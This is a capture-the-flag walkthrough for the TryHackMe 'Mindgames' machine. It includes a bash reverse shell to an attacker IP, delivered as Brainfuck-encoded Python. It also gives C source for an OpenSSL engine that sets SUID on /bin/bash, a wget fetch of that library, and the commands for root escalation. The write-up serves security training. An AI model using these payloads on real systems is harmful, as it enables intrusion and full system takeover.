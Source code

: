 ```yaml
---
date: 2020-06-12 21:12:32
layout: post
title: "Mindgames"
subtitle: Hard Machine from Tryhackme
description: 
image: /writeup/assets/img/mindgames/mindgames.png
optimized_image:
category: tryhackme
tags: hard
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/mindgames">Link</a> to the machine on tryhackme.

I started with the nmap scan to look for open ports.
```bash
nmap -T4 -p- -A 10.10.132.232
```

Found 2 open ports. Accessed the site hosted on port 80 to find obfuscated text called Brainfuck programming language.
![placeholder](/writeup/assets/img/mindgames/site.png "site")
Decrypted the examples given on site using <a href="https://www.dcode.fr/brainfuck-language">Dcode.fr</a>
![placeholder](/writeup/assets/img/mindgames/print.png "helloworld")

The Brainfuck code translated into the python3 commands.

Created a payload of python reverse shell in Brainfuck language by using this <a href="https://copy.sh/brainfuck/text.html">Website</a>
```python3
import os

os.system('bash -c "bash -i >& /dev/tcp/10.9.12.192/8888 0>&1"')
```
![placeholder](/writeup/assets/img/mindgames/payload.png "payload")

Executed the payload through the website homepage to get a reverse shell.

Found the user.txt

Ran Linpeas on the machine and found some interesting capabilities.
![placeholder](/writeup/assets/img/mindgames/cap.png "capabilities")
 
 So the openssl binary was given permission to *setuid*
 
 Went to GTFObins and found that openssl command can be used to load specific shared libraries to execute commands.
![placeholder](/writeup/assets/img/mindgames/so.png "sharedlibrary")

Tried to create a .so file from simple c++ code. But falied.

Found this <a href="https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/">page</a> and used the code from it to create .so file.
```c
#include <openssl/engine.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static const char *engine_id = "test";
static const char *engine_name = "hope it works";

static int bind(ENGINE *e, const char *id)
{
  int ret = 0;

  if (!ENGINE_set_id(e, engine_id)) {
    fprintf(stderr, "ENGINE_set_id failed\n");
    goto end;
  }
  if (!ENGINE_set_name(e, engine_name)) {
    printf("ENGINE_set_name failed\n");
    goto end;
  }
  setuid(0);
  setgid(0);
  system("chmod u+s /bin/bash");
  system("echo done");
  ret = 1;
 end:
  return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Made a shared library out of this c++ code.
```bash
gcc -c fPIC test.c -o test
gcc -shared -o test.so -lcrypto test
```

Uploaded the file to the machine using wget,
```bash
wget http://10.9.12.192/test.so
``` 
Executed the following command from GTFObins to make the bash binary a SUID binary.
```
openssl req -engine /home/mindgames/test.so
```
![placeholder](/writeup/assets/img/mindgames/rce.png "rce")
This made the bash binary a SUID binary.

```bash 
bash -p
```
Got the root shell and found root.txt.
![placeholder](/writeup/assets/img/mindgames/root.png "root") 
